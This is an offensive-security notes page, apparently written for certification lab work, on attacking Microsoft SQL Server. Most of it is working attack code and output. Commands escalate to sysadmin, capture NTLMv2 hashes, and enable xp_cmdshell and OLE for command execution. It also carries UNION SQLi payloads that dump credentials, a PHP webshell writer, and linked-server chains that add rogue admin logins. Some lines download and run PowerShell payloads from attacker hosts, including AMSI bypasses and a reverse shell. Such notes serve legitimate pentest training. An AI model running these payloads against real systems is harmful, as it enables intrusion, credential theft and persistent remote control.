


---
tags:
  - ad
  - crtp
  - cape
---

# 1433 - MSSQL


MSSQL offers strong lateral movement opportunities: domain users can be mapped to database roles, allowing privesc or RCE across systems.


## Authentication

There are two authentications modes in a MSSQL server:&#x20;

* **Windows Authentication**: This is **the default**, aka `integrated` security, in which the MSSQL server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.
* **Mixed**: Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.

The systemadmin account (`sa`) is the default administrator-level account in MSSQL. Note that this account is disabled by default when Windows Authentication is selected during installation.

## Schemas

In MSSQL server, each table belongs to a specific schema (e.g., `dbo`, `sales`, `hr`, etc.). If no schema is specified, `dbo` is used by default.


```sql
SELECT * from flags;
// ('42S02', "[42S02] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]Invalid object name '#flags'. (208) (SQLExecDirectW)")

# Specify the database context explicitly
SELECT * from app.dbo.flags;
```


Below are the default MSSQL system schemas:

<table><thead><tr><th width="126" align="right">Schema</th><th>Description</th></tr></thead><tbody><tr><td align="right">master</td><td>Keeps the information for an instance of SQL Server</td></tr><tr><td align="right">msdb</td><td>Used by SQL Server Agent</td></tr><tr><td align="right">model</td><td>Template database copied for each new database</td></tr><tr><td align="right">resource</td><td>Read-only, keeps sys objects visible in every server database in sys schema</td></tr><tr><td align="right">tempdb</td><td>Keeps temporary objects for SQL queries</td></tr></tbody></table>

## Syntax

MSSQL uses its own SQL dialect called [Transact-SQL (T-SQL)](https://learn.microsoft.com/en-us/sql/t-sql/language-reference?view=sql-server-ver16) which includes procedural programming, local variables, support functions, etc.


When using a CLI tool, a statement must end with `;` followed by a `GO` on a separate line.



```sql
-- Version
SELECT @@version;

-- Current user
SELECT system_user;

-- Database users
SELECT name,sysadmin FROM syslogins;

-- Databases
SELECT name FROM sys.databases;

-- Use the target database
USE <database>;

-- Tables
SELECT * FROM <database>.information_schema.tables;
SELECT name FROM sys.tables;

-- Columns
SELECT column_name, data_type FROM <database>.information_schema.columns WHERE table_name = '<tableName>';

-- Privileges
SELECT name,sysadmin FROM syslogins;
```


## Tools

### Local

The [SQL Server Management Studio (SSMS)](https://learn.microsoft.com/en-us/ssms/install/install) can be used if we have local access to the server.

### CLI

#### Windows

Native Windows tool:

```powershell
sqlcmd -U <username> -P '<password>' -Q '<query1;query2;>' 
```

We can use the params `-y` (`SQLCMDMAXVARTYPEWIDTH`) and `-Y` (`SQLCMDMAXFIXEDTYPEWIDTH`) for better looking output (may affect performance):

```powershell
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

If we use `sqlcmd`, we will need to use `GO` after our query to execute the queries:

```sql
-- List existing databases
1> SELECT name FROM master.dbo.sysdatabases
2> GO
```

#### Linux

The Linux alternative to `sqlcmd` is `sqsh`. The `-h` flag disables headers & footers for a cleaner output:

```bash
# Connect to the MSSQL server
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h

# Port specification
sqsh -S 10.129.203.7:15010 -U julio -P 'MyPassword!' -h
```

If we define the domain or hostname, it will use **Windows authentication**. If we don't, it will assume **SQL Authentication** and authenticate against the users created in the SQL server:

```bash
# Authenticating with a local account
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```

Impacket's `mssqlclient` script can be also be used:

```bash
impacket-mssqlclient <domain>/<user>:<pass>@<target> -windows-auth
```

## Enumeration

### Logins & Users

There are two types of [security principals](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/principals-database-engine?view=sql-server-ver16):

* [`logins`](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/create-a-login?view=sql-server-ver16) (server-level): One login can be mapped to multiple users across multiple databases, but with a maximum of one user per database.
* [`users`](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/create-a-database-user?view=sql-server-ver16) (database-level): Identities that are mapped to logins and define permissions within a particular database. Each user exists within a single database and can only be associated with one login per database.


```sql
-- Logins and their server-level roles
SELECT r.name, r.type_desc, r.is_disabled, sl.sysadmin, sl.securityadmin, sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin
FROM master.sys.server_principals r
LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid
WHERE r.type IN ('S','E','X','U','G');
```


### Databases


```sql
-- Databases, database owners, and trustworthiness
SELECT a.name AS 'database', b.name AS 'owner', is_trustworthy_on
FROM sys.databases a
JOIN sys.server_principals b ON a.owner_sid = b.sid;
```


### Database Server Roles

Once we are under a database context, we can enumerate the users and their respective [database-level roles](https://learn.microsoft.com/en-us/sql/relational-databases/security/authentication-access/database-level-roles?view=sql-server-ver16) with the built-in stored procedure [`sp_helpuser`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-helpuser-transact-sql?view=sql-server-ver16). This will only return information available to our current user.


A [stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/stored-procedures/stored-procedures-database-engine?view=sql-server-ver16) is similar to a function in other programming languages: it accepts input arguments, contains programming statements, and returns a status value. MSSQL includes [numerous](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/system-stored-procedures-transact-sql?view=sql-server-ver16) built-in stored procedures. [Extended stored procedures](https://learn.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/how-extended-stored-procedures-work?view=sql-server-ver16) are a special type that execute native code from a DLL.



```sql
USE database01;
EXECUTE sp_helpuser;
```


## PrivEsc

### User Impersonation

MSSQL includes a special permission called `IMPERSONATE`, stored in [`sys.server_permissions`](https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-server-permissions-transact-sql?view=sql-server-ver16), which allows a login/user to assume the permissions of another login/user ([`EXECUTE AS`](https://learn.microsoft.com/en-us/sql/t-sql/statements/execute-as-transact-sql?view=sql-server-ver16)) until the session ends or the context is reset ([`REVERT`](https://learn.microsoft.com/en-us/sql/t-sql/statements/revert-transact-sql?view=sql-server-ver16)).


Run `EXECUTE AS LOGIN` within the master database (`USE master`), because all users, by default, have access to that database.

If a user you are trying to impersonate doesn't have access to the database you are connecting to it will result in an error.


```sql
-- Enumerate impersonation opportunities
SELECT name FROM sys.server_permissions
JOIN sys.server_principals
ON grantor_principal_id = principal_id
WHERE permission_name = 'IMPERSONATE';

-- Or
SELECT distinct b.name FROM sys.server_permissions a
INNER JOIN sys.server_principals b 
ON a.grantor_principal_id = b.principal_id 
WHERE a.permission_name = 'IMPERSONATE';
GO;

-- Impersonate SA
EXECUTE AS LOGIN = 'sa';

-- Switch back
REVERT;
```

### Trustworthy Databases

The [`TRUSTWORTHY`](https://learn.microsoft.com/en-us/sql/relational-databases/security/trustworthy-database-property?view=sql-server-ver16) database property indicates whether the MSSQL server should trust the database and its contents within it. By default this is set to `0` (disabled), however if a user has the `sa` role can easily enable it.

If we compromise a user with the `db_owner` role who owns a `TRUSTWORTHY` database, we can leverage it to assign the `sa` role to arbitratry logins.


```sql
-- Connect to a trustworthy database
USE trustworthyDatabase01;

-- Enumerate the database users and their roles
SELECT b.name AS RoleName, c.name AS UserName
FROM webshop.sys.database_role_members a
JOIN webshop.sys.database_principals b ON a.role_principal_id = b.principal_id
LEFT JOIN webshop.sys.database_principals c ON a.member_principal_id = c.principal_id;

-- Impersonate the user with the db_owner role
EXECUTE AS LOGIN = 'db_owner_user';

-- Confirm its role
SELECT IS_ROLEMEMBER('db_owner');

-- Create a stored procedure
CREATE PROCEDURE sp_privesc
WITH EXECUTE AS OWNER
AS
	EXEC sp_addsrvrolemember 'db_owner_user', 'sysadmin'
GO

-- Execute the stored procedure
EXECUTE sp_privesc;

-- Delete the stored procedure
DROP PROCEDURE sp_privesc;

-- Revert back to the db_owner_user context
REVERT;

-- Confirm SA permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```


### UNC Path Injection

This technique allows us to capture the `NetNTLMv2` hash of whichever user the MSSQL service is running as (by default `NT SERVICE\\mssqlserver`).

This can be done by using undocumented extended stored procedures which leverage the SMB protocol to list directories. There are a number of these ([**a**](https://www.sqlservercentral.com/articles/undocumented-extended-and-stored-procedures), [**b**](https://www.sqlteam.com/forums/topic.asp?TOPIC_ID=132601), [**c**](https://www.databasejournal.com/ms-sql/useful-undocumented-extended-stored-procedures/)) in MSSQL including:

* `xp_fileexist`: Checks whether a certain file exists
* `xp_dirtree`: Returns a directory tree based on a provided directory
* `xp_subdirs`: Returns a list of sub-directories of a provided directory

All the above stored procedures accept both DOS and [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) paths.&#x20;

By pointing one of these procedures to an attacker-controlled SMB server, the MSSQL server is tricked into authenticating with its NTLMv2 hash:


```bash
# Launch an SMB server
$ sudo responder -I tun0
$ sudo impacket-smbserver share ./ -smb2support
```


```sql
--- Check if the target file exists using a DOS path
EXEC xp_fileexist 'C:\\Windows\\System32\\drivers\\etc\\hosts';

-- Check if the target file exists on a remote server
EXEC xp_fileexist '\\\\10.10.10.5\\a';

-- Retrieve the tree based directory
EXEC xp_dirtree '\\\\10.10.10.5\\a';

-- Retrieve the sub-directory list
EXEC xp_subdirs '\\\\10.10.10.5\\a';

```


```bash
# Capture the hash
$ sudo responder -I tun0
...
[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3...000

$ sudo impacket-smbserver share ./ -smb2support
...                     
[*] demouser::WIN7BOX:5e3...000
```


The NTLMv2 hash can be either cracked (`-m5600`) or [relayed](../../../../tl-dr/active-directory/attacks/ntlm-relay.md).

## RCE

There are three common ways:

* By using the built-in [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16) extended stored procedure.
* By creating a malicious [MSSQL Server Agent Job](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-job?view=sql-server-ver16).
* By creating and executing an [OLE Automation stored procedure](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/ole-automation-stored-procedures-transact-sql?view=sql-server-ver16).

Two of the following techniques require [**advanced server configuration options**](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/server-configuration-options-sql-server?view=sql-server-ver16) to be enabled, which are disabled by default. To set an MSSQL configuration option, we use the [`sp_configure`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-configure-transact-sql?view=sql-server-ver16) stored procedure.

By default, advanced options are hidden, but a `login` with the `sysadmin` role may show them. Note the [`RECONFIGURE`](https://learn.microsoft.com/en-us/sql/t-sql/language-elements/reconfigure-transact-sql?view=sql-server-ver16) statement, which actually updates the server configuration.

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
```

### xp\_cmdshell

Microsoft have added a [**caution**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16#remarks) to the documentation and disabled it by default. In order to use [`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), we have to first enable `advanced server configuration options`, and then enable `xp_cmdshell`:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXEC xp_cmdshell 'ipconfig';
```


In the background, `xp_cmdshell` spawns a `cmd.exe` process as a child of `sqlservr.exe` (the MSSQL service binary) with the string passed to `xp_cmdshell` as a CLI arg (e.g., `/c notepad.exe`):


After executing your commands, it is a good idea to reset the `xp_cmdshell` and `show advanced options` configurations to the values they were before.

### Server Agent Job

Another way to RCE is by creating a malicious [**job**](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-job?view=sql-server-ver16) for the [MSSQL Server Agent](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-job?view=sql-server-ver16). Jobs are comparable to scheduled tasks, and are intended to be used by database admins to automate tasks related to the database server.

Microsoft provides the following example in their [**documentation**](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-job?view=sql-server-ver16) for creating a job. In the `T-SQL` query below, a job called `"Weekly Sales Data Backup"` is defined, which runs a `T-SQL` query `once` at `23:30:00`.

```sql
USE msdb ;
GO
EXEC dbo.sp_add_job
    @job_name = N'Weekly Sales Data Backup' ;
GO
EXEC sp_add_jobstep
    @job_name = N'Weekly Sales Data Backup',
    @step_name = N'Set database to read only',
    @subsystem = N'TSQL',
    @command = N'ALTER DATABASE SALES SET READ_ONLY',
    @retry_attempts = 5,
    @retry_interval = 5 ;
GO
EXEC dbo.sp_add_schedule
    @schedule_name = N'RunOnce',
    @freq_type = 1,
    @active_start_time = 233000 ;
USE msdb ;
GO
EXEC sp_attach_schedule
   @job_name = N'Weekly Sales Data Backup',
   @schedule_name = N'RunOnce';
GO
EXEC dbo.sp_add_jobserver
    @job_name = N'Weekly Sales Data Backup';
GO
```

There are a handful of different `subsystems` which may be used when creating `job steps`. In the example above, we used the `T-SQL` subsystem, but there are also [**CmdExec**](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-cmdexec-job-step?view=sql-server-ver16) (commands) and [**PowerShell**](https://learn.microsoft.com/en-us/sql/ssms/agent/create-a-powershell-script-job-step?view=sql-server-ver16) (PS scripts) subsystems.

For example, on the code below, we create a new `job`, with a `step` which uses the `PowerShell` subsystem to download and execute a script hosted on our own machine. Instead of defining a schedule like in the previous example, we can use the [**sp\_start\_job**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-start-job-transact-sql?view=sql-server-ver16) stored procedure to start the job immediately.

```sql
USE msdb;
GO

EXEC sp_add_job
    @job_name = N'Malicious Job';
GO

EXEC sp_add_jobstep
    @job_name = N'Malicious Job',
    @step_name = N'Execute PowerShell Script',
    @subsystem = N'PowerShell',
    @command = N'(New-Object Net.WebClient).DownloadString("<http://10.10.14.104/a>")|IEX;',
    @retry_attempts = 5,
    @retry_interval = 5;
GO

EXEC sp_add_jobserver
    @job_name = N'Malicious Job';
GO

EXEC sp_start_job
    @job_name = N'Malicious Job';
GO
```

In this case, the file `a` contains a standard PowerShell reverse shell which is returned as `HTB\\svc_sql` (the user the `MSSQL Server Agent` service is running as). By default, said service runs as `NT Service\\sqlserveragent`, who has the `SeImpersonatePrivilege` privilege, which can be exploited by one of the well-known [**"potato"**](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) attacks to escalate to `SYSTEM`.


After executing your commands, it is a good idea to remove any `jobs` you created with the [**sp\_delete\_job**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-delete-job-transact-sql?view=sql-server-ver16) stored procedure. The one caveat to this approach, is that the MSSQL Server Agent service needs to be running, which it does not by default.

### OLE Automation Stored Procedure

The third way we will look at executing commands is by creating a malicious [**OLE Automation stored procedure**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/ole-automation-stored-procedures-transact-sql?view=sql-server-ver16). By default, they are disabled, however when operating in the context of a `sysadmin`, we can easily enable it:

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'ole automation procedures', 1;
RECONFIGURE;
```

[**OLE Automation**](https://learn.microsoft.com/en-us/cpp/mfc/automation?view=msvc-170) is an inter-process communication mechanism developed by Microsoft which essentially allows us to use other languages such as `VBScript` from a `T-SQL` query. To do so, we need to make use of the [**sp\_OACreate**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-oacreate-transact-sql?view=sql-server-ver16) and [**sp\_OAMethod**](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-oamethod-transact-sql?view=sql-server-ver16) stored procedures.

For example, we can use OLE Automation to create a `wscript.shell` object and the execute an arbitrary command:

```sql
DECLARE @objShell INT;
DECLARE @output varchar(8000);

EXEC @output = sp_OACreate 'wscript.shell', @objShell Output;
EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\\Windows\\Tasks\\tmp.txt"';
```


After executing your commands, it is a good idea to reset the `ole automation procedures` and `show advanced options` configurations to the values they were before.

## Attacks

### Context Change

When executing OS-level commands via `xp_cmdshell`, the commands run in the security context of the SQL Server service account:

```sql
>EXEC xp_cmdshell 'whoami';
---------------------------
nt service\mssql$db_public
```

SQL Server supports executing external R or Python scripts through the `sp_execute_external_script` stored procedure. These scripts run under a separate runtime and can have different OS-level execution contexts, potentially with higher privileges:

```sql
-- Enable external scripting feature
> EXEC sp_configure 'external scripts enabled', 1;
> RECONFIGURE;

-- Execute a Python payload
> EXEC sp_execute_external_script
    @language = N'Python',
    @script = N'import os; os.system("whoami")';
...
compatibility\db_public01
```

### SQLi


```sql
-- Column number
q=anger' ORDER BY 1;--
q=anger' UNION SELECT NULL;--
q=anger' UNION SELECT 1;--

-- Character column
q=anger1' UNION SELECT 'a',2,3,4,5,6;-- -

-- Version
q=anger1' UNION SELECT 1,@@version,3,4,5,6;--

-- Databases
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM master..sysdatabases--
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM sys.databases--

-- Tables
q=anger1' UNION SELECT 1,CONCAT(name,':',id),3,4,5,6 FROM streamio..sysobjects--

-- Columns
q=anger1' UNION SELECT 1,name,3,4,5,6 FROM streamio..syscolumns WHERE id=901578250--

-- Data
q=anger1' UNION SELECT 1,(SELECT STRING_AGG(CONCAT(username,':',password),'|') FROM users),3,4,5,6--
```



```sql
-- LAN stacked 1
-- Check connection back with nc on port 445, and then responder
q=anger1'; exec dir_tree '\\<attack-ip>\\sharename\file'--
```



```bash
# LAN stacked 2

# First connection
sudo nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.14.121] from (UNKNOWN) [10.10.11.158] 50883
E�SMBrS�����""NT LM 0.12SMB 2.002SMB 2.???^C

# Second connection
sudo responder -I tun0
<SNIP>
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.158
[SMB] NTLMv2-SSP Username : streamIO\DC$
[SMB] NTLMv2-SSP Hash     : DC$::streamIO:c45d729b18399cdd:DC4...000
```



```sql
-- Wildcards
SELECT * FROM movies WHERE name LIKE '%anger%';
SELECT * FROM movies WHERE CONTAINS (name,'*500*');
```


### RCE


* RCE via `xp_cmdshell` can also be achieved via [`nxc mssql`](../../../../tl-dr/active-directory/ad-tools/netexec.md#mssql).
* The Linux version of MSSQL does not support `xp_cmdshell`.


The `xp_cmdshell` function allows execution of system commands from SQL by passing a string to the command shell and returning the output as text rows. It operates synchronously (control returns only after the command completes) and runs with the same permissions as the SQL Server service account.&#x20;

`xp_cmdshell` is **disabled by default** and can be enabled or disabled using policy-based management or the `sp_configure` command. The latter is typically restricted to privileged users, and exploiting such functions via SQLi usually requires the use of stacked queries.

```sql
-- Allow advanced options to be modified
EXECUTE sp_configure 'show advanced options', 1;  
GO

-- Update currently configured value for advanced options
RECONFIGURE;  
GO
 
-- Enable the feature
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO
 
-- Update the currently configured value for this feature
RECONFIGURE;  
GO

-- Use feature
EXECUTE xp_cmdshell '<system-command>';
```

### Linked Servers

MSSQL supports a configuration option called [**linked servers**](https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine), which allows the database engine to run Transact-SQL queries across different SQL Server instances or even other database systems like Oracle.&#x20;

If an attacker gains access to a SQL Server with linked servers configured, this can potentially be used for **lateral movement**. Admins may configure linked servers using credentials from the remote server, and if those credentials have `sysadmin` privileges, it may be possible to execute commands on the remote SQL instance.&#x20;

Database links **work even across forest trusts**; they are direct server connections, so they have no boundaries.

<figure><figcaption></figcaption></figure>

Identify linked servers from the current server (`1` → remote server, `0` → linked server):


```sql
-- Enumerate linked servers
SELECT * FROM master...sysservers
SELECT * FROM openquery("dcorp-sql1",'select * from master..sysservers')
SELECT srvname, isremote FROM sysservers

srvname                             isremote
----------------------------------- --------
COMPATIBILITY\DB_PUBLIC             1
COMPATIBILITY\DB_CONFIG             0

-- Enumerate linked chains
select * from openquery("dcorp-sql1",'select * from openquery("dcorpmgmt",''select * from master..sysservers'')')
```


The `EXECUTE` statement can be used to send pass-through commands to linked servers. The target command is added between parenthesis and the linked server is specified between square brackets. If we need to use quotes in our query to the linked server, we need to **use single double quotes** to escape the single quote. To run multiple commands at once we can divide them up with a `;`:


```sql
-- Enumerate the user and its privileges
> EXECUTE('SELECT @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [COMPATIBILITY\DB_CONFIG]

-- List the linked server's databases
> EXECUTE('SELECT name FROM sys.databases;') AT [COMPATIBILITY\DB_CONFIG]
```


Database data can be read from any database or system commands can be executed with `xp_cmdshell`. Sometimes linked servers are cyclical, e.g. `DB_CONFIG` is a linked server for `DB_PUBLIC` and vice versa:


```sql
-- Identify linked servers
> SELECT srvname, isremote FROM sysservers
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_PUBLIC          1
COMPATIBILITY\DB_CONFIG          0

-- Check if the linked server has other linked servers
> EXECUTE('SELECT srvname,isremote from sysservers;') AT [COMPATIBILITY\DB_CONFIG]
srvname                    isremote
------------------------   --------
COMPATIBILITY\DB_CONFIG          1
COMPATIBILITY\DB_PUBLIC          0
```


<figure><figcaption></figcaption></figure>

In this case, the account on the linked server might have elevated privileges on our current server:


```sql
-- Enumerate linked server user
> EXECUTE('SELECT current_user;') AT [COMPATIBILITY\DB_CONFIG]
-------------
internal_user

-- List privileges on the linked server
> EXECUTE('SELECT name,sysadmin from syslogins;') AT [COMPATIBILITY\DB_CONFIG]
name            sysadmin
-------------   --------
sa                     1
internal_user          0

-- List privileges of the linked account on the current server
> EXEC ('EXEC (''SELECT suser_name()'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
--
sa
```


Based on the above output, `internal_user` has `sa` rights on `DB_PUBLIC`. This can be leveraged for RCE directy using nested queries:


```sql
>EXEC ('EXEC (''EXEC sp_configure ''''show advanced options'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_configure ''''xp_cmdshell'''', 1'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''RECONFIGURE'') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC xp_cmdshell ''''whoami'''''') AT [COMPATIBILITY\DB_PUBLIC]') AT [COMPATIBILITY\DB_CONFIG];
...
output
---------------------------
nt service\mssql$db_public
```


or by first adding a new admin user on `DB_PUBLIC` and then using that account:


```sql
>EXEC ('EXEC (''EXEC sp_addlogin ''''super'''', ''''abc123!'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG]; EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''super'''', ''''sysadmin'''''') at [COMPATIBILITY\DB_PUBLIC]') at [COMPATIBILITY\DB_CONFIG];
```


For RCE, either `xp_cmdshell` should be already enabled or if `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled manually:

```sql
>EXEC('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) is a PowerShell toolkit for discovering, auditing, and attacking SQL Servers in AD environments.

```powershell
# Discover MSSQL servers (SPN scanning instead of port scanning)
Get-SQLInstanceDomain

# Check access
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

# Gather server information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Enumerate if a specific instance is linked to other servers
Get-SQLServerLink -Instance dcorp-mssql -Verbose

# Enumerate linked chains
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

The `Query` and `QueryTarget` parameters can be used. Without the latter, it will try to use `xp_cmdshell` on every link of the chain:


```powershell
# This will run the query on all chain links
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'"

# This will target only the specific instance
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget EU-SQL23

# RevShell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.37/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql23
```


### Write Files

To write file in MSSQL, we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), which requires admin rights, and then execute some stored procedures to create the file:


```sql
-- Enable Ole Automation Procedures
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO

-- Create a file
> DECLARE @OLE INT; DECLARE @FileID INT; EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT; EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1; EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'; EXECUTE sp_OADestroy @FileID; EXECUTE sp_OADestroy @OLE; GO
```


### Read Files

By default, MSSQL allows file read on any file in the OS to which the account has read access:


```sql
-- Read local file
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

